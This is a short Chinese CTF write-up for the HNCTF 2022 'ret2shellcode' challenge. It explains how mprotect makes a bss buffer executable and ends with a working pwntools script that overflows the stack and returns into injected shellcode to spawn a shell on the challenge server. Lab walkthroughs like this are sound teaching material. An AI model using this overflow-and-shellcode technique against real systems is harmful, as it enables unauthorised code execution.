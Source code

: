 [[HNCTF 2022 Week1]ret2shellcode | NSSCTF](https://www.nssctf.cn/problem/2934)
源码及ida
![[Pasted image 20240815230835.png]]
可见为开启了NX保护，但题目提示为ret2shellcode类型题目
![[Pasted image 20240815230904.png]]
s在栈上，buff在bss段
![[Pasted image 20240815231353.png]]
关键函数mprotect(void *addr, size_t len, int prot)
主要关注参数prot：  
r:4  
w:2  
x:1  
prot为7（1+2+4）就是rwx可读可写可执行
即rwx为二进制111，全开

将断点下在mprotect函数，此时查看权限，发现仅有读写权限
![[Pasted image 20240815231451.png]]
步进后发现有了执行权限
![[Pasted image 20240815231537.png]]
故可将shellcode写入buff中执行
exp:
```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
#p = process('./ret2shellcode_nss_1')
p = remote("node5.anna.nssctf.cn", 26165)

shellcode = asm(shellcraft.sh())
buff = 0x4040A0

payload = flat([shellcode, 'a' * (0x100 + 8 - len(shellcode)), buff])

p.sendline(payload)
p.interactive()
```